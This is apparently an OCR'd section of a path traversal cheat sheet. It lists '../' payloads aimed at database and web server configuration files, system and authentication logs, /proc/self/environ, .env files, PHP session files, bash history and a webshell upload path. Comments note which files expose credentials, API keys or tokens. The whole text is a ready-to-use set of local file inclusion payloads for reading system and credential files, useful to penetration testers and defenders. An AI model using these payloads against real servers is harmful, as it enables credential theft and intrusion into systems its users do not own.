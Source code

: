 ## Database Configuration Files
```bash
../../../../../../var/www/html/phpMyAdmin/config.inc.php  # phpMyAdmin config file (DB credentials)
../../../../../../etc/mysql/my.cnf               # MySQL config file (DB credentials)
../../../../../../etc/postgresql/9.5/main/pg_hba.conf  # PostgreSQL config file (access settings)
../../../../../../etc/httpd/conf/httpd.conf      # Apache HTTPD configuration (may contain DB paths)
../../../../../../etc/nginx/nginx.conf           # Nginx configuration (may contain DB paths)
../../../../../../opt/lampp/phpmyadmin/config.inc.php  # XAMPP phpMyAdmin config
../../../../../../usr/local/etc/mongodb.conf     # MongoDB configuration
../../../../../../var/lib/mysql/mysql-bin.index  # MySQL binary logs (DB transactions)
../../../../../../var/lib/mysql/ibdata1          # MySQL data file (contains all the databases)
../../../../../../etc/apache2/sites-available/000-default.conf  # Apache site config
```

#5. Environment and Session Files: Log Files: Log files may contain sensitive information such as user activity, errors, or even API keys and tokens.

## Log Files:
```bash
../../../../../../var/log/apache2/access.log      # Apache access logs (user requests)
../../../../../../var/log/apache2/error.log       # Apache error logs
../../../../../../var/log/nginx/access.log        # Nginx access logs
../../../../../../var/log/nginx/error.log         # Nginx error logs
../../../../../../var/log/syslog                  # System logs
../../../../../../var/log/auth.log                # Authentication logs
../../../../../../var/log/kern.log                # Kernel logs
../../../../../../var/log/secure                  # Secure logs (user login attempts)
../../../../../../var/log/faillog                 # Failed login attempts
../../../../../../var/log/dmesg                   # Kernel ring buffer logs
```

# 6. Environmental and Session Data: Environmental data and session files can expose critical information about the environment, such as API keys, sessions, and user tokens.

##Common Environment and Session Files:
```bash
../../../../../../proc/self/environ               # Environment variables
../../../../../../proc/version                    # Kernel version info
../../../../../../var/lib/php/sessions/sess_abc123  # PHP session files
../../../../../../var/www/html/.env               # Environmental files containing sensitive config
../../../../../../var/www/html/.htaccess          # Hidden file configuration
../../../../../../var/tmp/.session                # Temporary session storage
../../../../../../tmp/.session                    # Temporary session storage
../../../../../../var/www/html/tmp/shell.php      # Temporary file upload for webshells
../../../../../../home/user/.bash_history         # Command history of users
../../../../../../home/user/.ssh/known_hosts      # SSH known hosts file
```

